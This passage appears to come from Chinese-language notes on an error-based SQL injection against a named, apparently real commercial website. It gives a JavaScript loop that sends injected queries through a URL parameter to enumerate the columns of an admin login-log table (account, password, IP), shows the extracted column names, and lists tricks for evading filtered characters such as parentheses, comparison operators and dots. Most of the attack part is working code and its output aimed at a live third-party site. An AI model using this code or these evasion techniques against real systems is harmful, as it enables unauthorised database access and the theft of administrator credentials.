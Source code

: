 結果

```js
["id", "pid", "title", "url", "sort", "pic", "hidden", "recdate", "mtype"];
```

22. 查詢 AdminLoginLog 的 column_name

```js
const result = [];
const fixedUrl = `https://xl-stationer.com.tw/_Models/mItemList.asp?ClsUpId=';SELECT 1/column_name FROM information_schema.columns WHERE table_name LIKE 'AdminLoginLog'`;
async function main() {
  for (let i = 0; i < 40; i++) {
    const andSyntax = result
      .map((item) => ` AND column_name NOT LIKE '${item}'`)
      .join("");
    const fullUrl = `${fixedUrl}${andSyntax}--`;
    const res = await fetch(fullUrl);
    const text = await res.text();
    const item = text.split("'")[1] === "80004005" && text.split("'")[3];
    if (item) result.push(item);
    else break;
  }
  console.log("end");
}
```

結果

```js
["id", "acc", "pass", "ip", "act", "recdate"];
```

## 學到的東西

1. `top 100 percent` => 等於全選
2. 不能用 `(`, `)`, `=`, `>`, `<` 的情況，可以用以下方式來提取資料

- `column_name LIKE '%25SearchString%25'`
- `1/not-number-column_name`

3. 不能用 `.` 的情況，可以用 `SELECT name FROM sysobjects WHERE xtype LIKE 'U'` 來提取 table_name
